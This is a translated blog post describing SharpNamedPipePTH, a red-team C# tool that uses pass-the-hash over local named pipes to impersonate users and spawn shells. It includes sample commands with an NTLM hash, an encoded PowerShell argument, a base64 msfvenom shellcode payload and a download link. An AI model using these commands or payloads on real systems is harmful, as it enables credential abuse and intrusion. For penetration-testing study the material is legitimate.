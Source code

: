 # SharpNamedPipePTH:将哈希传递给命名管道以进行令牌模拟

> 原文：<https://kalilinuxtutorials.com/sharpnamedpipepth/>

[![](img//d9a66ef2f8ff9f33dbae583e6b702275.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi89I62ESZQFCXUQ9dDUwP2O-igsvsewNphLe-JEuCyRJRntDnTJNcujn5RrCK2WydKJHolWdlxbP4V1vlEMPV9zd1H7TI7TQ7wxbeDCAETgL2Z3yupg33KxsbKmfm_-ieK6N3sg83Xwz5Xau1LAjqCj_NPXMxryU8DdExM-Pjc_QiVywudikhPAbkV/s728/NamedPipePTH_2_Example2-738687.png)

SharpNamedPipePTH 是一个 C#工具，使用传递散列在本地命名管道上进行身份验证，用于用户模拟。您需要本地管理员或个人权限才能使用它。有一篇博文做了解释:

https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/

它主要基于 Sharp-SMBExec 项目的代码。

我在过去面临过某些攻击性安全项目的情况，我已经有了一个用户账户的 NTLM 散列，并且需要在当前被入侵的系统上为该用户提供一个 shell 但是这对于当前的公共工具来说是不可能的。想象一下另外两个情况——NTLM 散列无法被破解*和*没有受害用户在其中执行外壳代码或迁移到该进程的进程。对你们中的一些人来说，这听起来像是一个荒谬的边缘案例。我还是经历了很多次。不仅仅是在一个项目中，我花了很多时间在特定的情况下寻找合适的工具/技术。

我对工具/技术的个人目标是:

*   全功能外壳或 C2 连接作为受害者用户帐户
*   它还必须能够模拟`**low privileged**`账户——根据项目目标，可能需要特定用户(如 CEO、人力资源账户、SAP 管理员或其他人)访问系统
*   该工具可用作 C2 模块

不幸的是，被模拟的用户*不允许网络认证*，因为新进程正在使用一个受限的模拟令牌。因此，您只能对另一个用户的本地操作使用这种技术。

有两种方法可以使用 SharpNamedPipePTH。您可以执行二进制文件(带或不带参数):

`**SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe**`

![](img//30d6f82a3c190b7b4e6b6f6c58ab7788.png)

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"**`

或者您可以作为另一个用户执行外壳代码:

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=**`

也就是`**msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0**`。

我对 shellcode 的执行还不满意，因为它目前正在生成 notepad 作为模拟用户，并通过 D/Invoke createremotethead Syscall 将 shellcode 注入到新进程中。我仍然在寻找在后台产生一个进程或执行外壳代码的可能性，而不需要目标用户的进程来分配内存。

![](img//fd2ae80574de4b2226797ca4f7a6bd81.png)[**Download**](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)